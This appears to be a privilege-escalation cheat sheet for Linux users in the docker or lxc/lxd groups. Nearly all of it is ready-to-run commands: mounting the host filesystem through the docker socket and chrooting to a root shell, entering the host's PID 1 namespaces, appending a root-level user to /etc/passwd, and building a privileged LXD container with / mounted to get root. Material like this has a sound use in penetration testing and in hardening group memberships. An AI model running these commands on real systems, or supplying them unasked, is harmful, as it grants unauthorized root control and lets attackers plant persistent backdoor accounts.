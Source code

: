 # Docker Groups

## Docker group exploits

To execute these exploits the current user has to be in `docker` group

### Writable Docker Socket

If the docker socket is writable it can be used to run commands as an elevated user. Only users in root and docker group can read the socket file.

```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

### Access arbitrary folders

```
docker images
docker run -v <folder>:/mnt -it <image>
cd /mnt
```

### Add user to /etc/passwd

```
docker images
docker run -v /etc/:/mnt -it <image>
cd /mnt
echo "<username>:$(openssl passwd <password>):0:0:/root:/root:/bin/bash" >> passwd
exit
su <username>
```

### Spawn shell

```
docker images
docker run -v /:/mnt --rm -it <image> chroot /mnt sh
```

### Root Please Docker image

A docker image that spawns a root shell.

```
git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
cd rootplease/
docker build -t rootplease .
docker run -v /:/hostOS -it --rm rootplease
```

## LXC / LXD group exploit

To execute this exploit the current user has to be in `lxc or lxd` group. Download configure and build an Alpine image, mount /root and execute /bin/sh as root.

```
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a <arch>

lxc image import ./alpine.tar.gz --alias myimage

lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

lxc start mycontainer
lxc exec mycontainer /bin/sh
```
